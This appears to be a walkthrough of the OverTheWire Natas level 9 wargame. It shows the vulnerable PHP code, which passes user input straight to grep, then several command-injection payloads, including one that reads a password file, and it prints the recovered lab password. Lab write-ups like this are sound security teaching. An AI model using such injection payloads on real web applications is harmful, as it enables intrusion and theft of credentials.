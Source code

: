 `Link` : `https://overthewire.org/wargames/natas/natas9.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟖 - 𝐋𝐞𝐯𝐞𝐥 𝟗

## 𝐆𝐢𝐯𝐞𝐧

- Username: natas9
- URL:      `http://natas9.natas.labs.overthewire.org`


## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:      `http://natas9.natas.labs.overthewire.org`
- `viewsource`

```
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

- Notice: `passthru("grep -i $key dictionary.txt");`
- Means every single thing we input is passed as it is to `grep` without any sanitization
- Possible Php command injection
  - `; ls -la;` but nothing juicy found
  - `; cd ..;` - there is a folder named `natas10` but `; cd ..; cd natas10;` doesn't work
  - `; find / -name *natas*;` - find everything that has natas in it.

- `; find / -name *natas*;` - this gives us something very juicy!

<div align=center>
  <img src=https://user-images.githubusercontent.com/68887544/148765886-57f3d2b2-1cf3-46fa-8f0f-f50d2b9122b5.png width=500px>
</div>

- There folders contains user passwords.
- Let's try `; cat /etc/natas_webpass/natas10;`
- Boom!

<div align=center>
  <img src=https://user-images.githubusercontent.com/68887544/148766230-a1ae94ee-8021-47c0-a2de-3f13f618d873.png width=500px>
</div>

- `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`
